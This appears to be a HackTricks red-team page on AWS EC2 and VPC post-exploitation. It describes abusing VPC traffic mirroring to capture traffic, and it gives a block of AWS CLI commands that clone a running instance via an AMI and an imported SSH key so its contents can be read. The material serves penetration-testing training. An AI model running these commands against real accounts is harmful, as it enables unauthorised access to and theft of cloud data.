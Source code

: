 # AWS - EC2, EBS, SSM & VPC Post Exploitation

<details><summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a><strong>!</strong></summary></details>

## EC2 & VPC

For more information check:

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **Malicious VPC Mirror -** `ec2:DescribeInstances`, `ec2:RunInstances`, `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress`, `ec2:CreateTrafficMirrorTarget`, `ec2:CreateTrafficMirrorSession`, `ec2:CreateTrafficMirrorFilter`, `ec2:CreateTrafficMirrorFilterRule`

VPC traffic mirroring **duplicates inbound and outbound traffic for EC2 instances within a VPC** without the need to install anything on the instances themselves. This duplicated traffic would commonly be sent to something like a network intrusion detection system (IDS) for analysis and monitoring.\
An attacker could abuse this to capture all the traffic and obtain sensitive information from it:

For more information check this page:

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### Copy Running Instance

Instances usually contain some kind of sensitive information. There are different ways to get inside (check [EC2 privilege escalation tricks](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md)). However, another way to check what it contains is to **create an AMI and run a new instance (even in your own account) from it**:
```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1
```